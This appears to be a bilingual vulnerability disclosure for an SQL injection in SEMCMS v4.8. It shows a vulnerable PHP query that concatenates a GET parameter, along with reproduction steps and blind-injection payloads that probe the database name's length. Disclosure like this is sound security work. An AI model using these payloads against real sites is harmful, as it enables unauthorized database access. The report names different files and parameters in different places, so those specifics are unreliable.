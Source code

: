 # Seecms
# sql注入漏洞

### BUG_Author: Megrez

### Affected version: Seecms

### Vendor: https://www.sem-cms.com/

### Software: https://www.sem-cms.com/TradeCmsdown/php/semcms_php_4.8.zip

![image](https://github.com/user-attachments/assets/b989312d-f06c-416e-83b5-04b2d98e12a9)


### Vulnerability File:

/xcR45q_Admin/SEMCMS_SeoAndTag.php

### Description:

seecms系统v4.8存在SQL注入漏洞在SEMCMS_SeoAndTag.php页面。
 参数lgid没有被正确处理。黑客可以利用这个漏洞来操纵系统的管理员账户，并可以完全控制其他账户的信息。
 状态：严重

漏洞代码：
elseif ($type == "edit") {

$row = mysqli_fetch_array($db_conn->query("SELECT * FROM sc_user WHERE ID=" . $_GET["ID"]));

The system seecmsv4.8 is vulnerable to SQL Injection via /xcR45q_Admin/SEMCMS_SeoAndTag.php.
 The parameter `id` is not sanitized correctly. The malicious actor can use this  vulnerability to manipulate the administrator account of the systemand  can take full control of the information about the other accounts.
 Status: CRITICAL

GET parameter ‘id’ exists SQL injection vulnerability

漏洞复现：

访问http://url/xcR45q_Admin/SEMCMS_User.php 获取ID参数

<img width="416" alt="image" src="https://github.com/user-attachments/assets/8ee10d59-1a34-4cde-9696-fa3af72e9090">
<img width="416" alt="image" src="https://github.com/user-attachments/assets/3e8d2917-775f-4caf-a299-aadd41e37acd">



Bp抓包之后 将payload插入 由于新建站点的时候数据库名的长度为5 所以payload构造为
-1%20or%20length(database())%20REGEXP%20char(94,53,36)
（判断数据库名长度是否为5）

插入payload查看回显 

<img width="416" alt="image" src="https://github.com/user-attachments/assets/5015a113-1275-46ea-838a-51d2e67d1642">

此时更改payload
-1%20or%20length(database())%20REGEXP%20char(94,54,36)
（判断数据库名长度是否为6） 
插入payload查看回显 

<img width="416" alt="image" src="https://github.com/user-attachments/assets/71739530-6151-45cd-abba-54808d6d12f5">

